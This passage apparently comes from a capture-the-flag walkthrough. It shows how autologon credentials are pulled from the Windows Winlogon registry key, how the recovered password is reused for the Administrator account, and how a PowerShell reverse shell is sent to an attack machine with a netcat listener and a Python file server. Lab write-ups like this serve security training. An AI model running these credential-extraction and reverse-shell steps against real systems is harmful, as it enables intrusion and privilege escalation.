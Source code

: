 As stated in the article, these credentials are stored in the registry in plain text. The manual commands for extracting these credentials are:

```text
PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName                                                                                                                         
Alfred                                                                                                                                               PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword                                                                                                                         
Welcome1!
```

These credentials are set by the administrator. Since users have a tendency to reuse passwords, let’s see if the administrator account is set to the same password.

To do that, first run the following command to convert the plain text string “_Welcome1!_” into a secure string and store the result in the _$password_ variable.

```text
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
```

* **ConvertTo-SecureString**: Converts plain text to secure strings.
* **-AsPlainText**: Specifies a plain text string to convert to a secure string.
* **-Force**: Confirms that you understand the implications of using the _AsPlainText_ parameter and still want to use it.

Second, create a new object to store these credentials.

```text
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
```

Third, we’ll use these credentials to start PowerShell and send a \(hopefully privileged\) reverse shell back to our attack machine.

In the attack machine, copy the _shell.ps1_ script we used earlier and save it in the file _shell-admin.ps1_.

```text
cp shell.ps1 shell-admin.ps1
```

Change _shell-admin.ps1_ to send a reverse shell to our attack machine on port 6666.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

Setup a python server in the directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 6666
```

